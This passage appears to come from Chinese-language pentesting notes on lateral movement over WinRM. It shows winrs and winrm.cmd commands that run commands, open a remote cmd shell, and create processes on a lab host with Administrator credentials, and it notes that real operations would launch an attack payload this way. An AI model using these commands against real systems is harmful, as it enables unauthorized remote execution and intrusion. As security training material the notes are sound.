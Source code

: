 ### Winrs

`Winrs`是`Windows`上远程管理提供的客户端程序，允许通过提供的用户凭据，在运行`WinRM`的服务器上执行命令。要求通信双方都安装了`WinRM`服务。

```powershell
# 执行系统命令
winrs -r:http://10.10.10.137:5985 -u:Administrator -p:H3rmesk1t@2023 "whoami"

# 获取远程交互式命令行
winrs -r:http://10.10.10.137:5985 -u:Administrator -p:H3rmesk1t@2023 "cmd"
```

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%204.png)

### Winrm.cmd

`Winrm.cmd`允许`WMI`对象通过`WinRM`传输进行远程交互，在本地或远程计算机上枚举`WMI`对象实例或调用`WMI`类方法。例如，可以通过调用`Win32_Process`类的`Create`方法来创建远程实例。

```powershell
# 实战中可以远程执行一个攻击载荷
winrm invoke create wmicimv2/win32_process -SkipCAcheck -skipCNcheck @{commandline="notepad.exe"} -r:http://10.10.10.137:5985 -u:Administrator -p:H3rmesk1t@2023
```
